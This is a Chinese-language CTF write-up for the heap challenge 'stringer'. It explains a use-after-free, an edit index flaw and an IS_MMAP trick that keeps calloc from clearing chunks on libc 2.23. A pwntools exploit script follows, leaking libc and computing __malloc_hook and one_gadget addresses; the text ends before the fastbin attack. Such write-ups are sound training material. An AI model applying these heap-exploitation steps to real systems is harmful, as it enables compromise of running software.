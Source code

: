 2.stringer
---
题目本身没什么难度
唯一的比较难的考察点是利用IS_MMAP位来绕过calloc
calloc 会清空原来chunk上的内容,libc 2.23 设置 is_mmap bit 可以绕过
而后就没什么难得点了
free之后没有清零，指针可用
edit函数下标检查不严格，可以改下一个堆的堆头
思路就是绕过calloc然后泄露地址
而后就是比较常规的fastbinattack了
exp：

    from pwn import *
    context.log_level = 'debug'
    io = process('./stringer')
    elf = ELF('stringer')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    
    def add(size,content):
    	io.recvuntil('choice:')
    	io.sendline('1')
    	io.recvuntil('length:')
    	io.sendline(str(size))
    	io.recvuntil('content:')
    	io.sendline(content)
    def edit(idx,i):
    	io.recvuntil('choice:')
    	io.sendline('3')
    	io.recvuntil('index:')
    	io.sendline(str(idx))
    	io.recvuntil('index:')
    	io.sendline(str(i))
    def delete(idx):
    	io.recvuntil('choice:')
    	io.sendline('4')
    	io.recvuntil('index:')
    	io.sendline(str(idx))
    
    add(0x18,'0'*0x18)
    add(0x80,'1'*0x80)
    add(0x80,'2'*0x80)
    delete(1)
    edit(0,0x18)
    edit(0,0x18)
    add(0x88,'3'*0x7+'\n')
    io.recvline()
    leak = u64(io.recvline(keepends=False)[:7].ljust(8,'\x00'))
    log.success(hex(leak))
    libc_base = leak - 0x58 - 0x10 - libc.symbols['__malloc_hook']
    log.success(hex(libc_base))
    mlh = libc_base + libc.symbols['__malloc_hook']
    log.success(hex(mlh))
    one = 0xe9415 + libc_base
    log.success(hex(one))
    